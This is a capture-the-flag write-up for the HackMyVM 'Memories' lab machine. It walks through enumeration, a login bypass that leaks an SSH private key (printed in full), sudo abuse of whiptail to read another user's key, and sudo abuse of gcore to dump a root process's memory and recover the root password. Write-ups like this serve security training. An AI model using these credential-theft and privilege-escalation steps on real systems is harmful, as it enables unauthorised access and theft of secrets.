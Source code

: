 ```yaml
---
layout: post
author: maxin
title:  "Memories"
date:   2022-01-01 10:28:30 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Memories)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 16:40:37 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.203
Nmap scan report for 192.168.0.203
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 d3:66:a3:0a:23:d3:46:e1:e6:6c:ff:ef:2d:0d:ad:7c (RSA)
|   256 93:35:93:8f:6b:7b:1f:11:ce:3a:db:09:15:a5:e1:ac (ECDSA)
|_  256 36:4e:cb:29:6d:64:19:49:15:47:d0:68:d4:0f:c6:a5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 16:40:44 2021 -- 1 IP address (1 host up) scanned in 7.61 seconds
{% endhighlight  %}

# Port 80

We can see a default apache page

## Fuzzing

{% highlight text  %}
/robots.txt           (Status: 200) [Size: 11]
{% endhighlight  %}

On robots.txt we can see another directory `/memories`  

![Untitled](/images/memories/loginPage.png)

I tried to found the creds, but i don’t find anything

But we can bypass this login 

{% highlight bash  %}
curl -X POST "192.168.0.203/memories/index.html"
{% endhighlight  %}

{% highlight text  %}
#Laura private key
laura
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA2W+WidI/grDh9S7BHggHhYFtusWhcArliwIzfEUbjxI+YSMxaCpR
PmPQHVy9dMWW0Joml9ShJiH8m2STT4vH36vyWpgBmZRAgm3lnfc/CzOzI+onbJ8IkfQiG0
RAnGowyax9qB1JYz07lYqlEsnYA39M98yLNtYZnO7cbAFp6vOz82LCQFm3JoOENmkQQlzG
kx0tI9sDtDHgAughL+Gig23nEFcJVYZlms1vwFbTBV3QafbxSmstIdgr4CfODM/tKjTPMD
dTqFEf5CEi+3cFiNBRr4FVfsb2otaOwzZ5mSgzsZ/WvuGZ1lnrrSb61J5aH6/3w/3/5TEK
BCtMDc5fSwAAA8he+yvgXvsr4AAAAAdzc2gtcnNhAAABAQDZb5aJ0j+CsOH1LsEeCAeFgW
26xaFwCuWLAjN8RRuPEj5hIzFoKlE+Y9AdXL10xZbQmiaX1KEmIfybZJNPi8ffq/JamAGZ
lECCbeWd9z8LM7Mj6idsnwiR9CIbRECcajDJrH2oHUljPTuViqUSydgDf0z3zIs21hmc7t
xsAWnq87PzYsJAWbcmg4Q2aRBCXMaTHS0j2wO0MeAC6CEv4aKDbecQVwlVhmWazW/AVtMF
XdBp9vFKay0h2CvgJ84Mz+0qNM8wN1OoUR/kISL7dwWI0FGvgVV+xvai1o7DNnmZKDOxn9
a+4ZnWWeutJvrUnlofr/fD/f/lMQoEK0wNzl9LAAAAAwEAAQAAAQAMm4PHCgHUuhzf8o4Q
B7cn7pFGOx9ZN8iHfuEtW3R1n0EusLO0rn93dqIikbYKh0pvXgDO3O1bIK1c9T/1ZM16Eq
ZCyn2NQiNbbLPbrPJi2+SPOIyAp9f/XoB7xEFa0G1zxCSlEs2mi25hBWD87ecwjLkRxTJt
Q4zIpLDzMkHJ9awYwCkweO2Oq3ia4L01nSXEAnhNfC074LT/mvvmOWebB37i0WHXn2iLMO
ab2yF4GWZcsVaU3DC08ZQHEOn/98xEV/22SLhlqxzK/XPk2XK/e2Egdg3qM3s9QDvzv1Qj
WSp+MVnbezr+e6qPwLmDHAtLY34U6fMDndcautebRNDBAAAAgEtUAUhMxTiu2c0wASGDrC
+/kcLSJhUg8p96546I20cMsmJiYZUH/hFITe4mzhehrYx74XJu9UePpvf7nePAFcHpKZki
Uf2p86G1/zQf4ti0a5h6Udbyon9d7Z6gq38loJoeYbyqCoBAO93ZgdxzbGZd0sLiSEeSNa
98kUV8oYPCAAAAgQD6dbOG9CnC8Y4Bl2J8/1JFWLh9YoZfQd5G+NsJrGiMlQjBgtPemsdQ
11Z0l6VSQhPMtQFbvHhpYwzFDNQbfRbkZgenQ8JDL5lEkZ7T8bkhtakZwMOIM9ewyN92eU
MiIFaBPKZ9PXxSYcnQcW2iGa8xwlIO0wg4kNDPARSmrBOZ1wAAAIEA3j7hORliNXJUafDa
6iSzgbBoKy1bdyvc+GlyLYdtYAHblglzwy8TJUu4nIXQZzb4MrlKhG32s4AfaXoRVc2Uo7
RCk0pW+N3Nyao0xod+3DeGCD8ZiEpNON4K9HM6fY6PA1ecpbXepR3h9LzZmSVFfyxngw2F
rrO2R16UEDh4v60AAAAObGF1cmFAbWVtb3JpZXMBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight  %}

# User

Connect to laura using the private key

{% highlight bash  %}
sudo -l

User laura may run the following commands on memories:
    (lucy) NOPASSWD: /usr/bin/whiptail
{% endhighlight  %}

Getting Lucy private key

{% highlight bash  %}
sudo -u lucy  whiptail --textbox --scrolltext /home/lucy/.ssh/id_rsa 0 0
{% endhighlight  %}

Copy and change the chmod to 600

# Root

On Lucy user, run:

{% highlight bash  %}
sudo -l

User lucy may run the following commands on memories:
    (ALL : ALL) NOPASSWD: /usr/bin/gcore
{% endhighlight  %}

With gcore binary we can generate a core file for a running process

Using the pspy64 program: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Run this binary and watch the process 

{% highlight bash  %}
#This is a interesting one
2021/12/30 17:45:01 CMD: UID=0    PID=11885  | /bin/sh -c /root/memories
{% endhighlight  %}

This process is schedule to be execute every minute through crontab

We can create a script to wait until the process execute and grep it

{% highlight bash  %}
while true; do i=$(ps -ef | grep /root/memories |grep -v grep | awk -F " " '{print $2}'); sudo gcore $i -o $(date); done
{% endhighlight  %}

This script grep the name of the process and the pid, after that calls the gcore with the right pid

Run strings against the files 

{% highlight bash  %}
strings core.* | grep password
My password is whataboutyourthinking
{% endhighlight  %}

root:whataboutyourthinking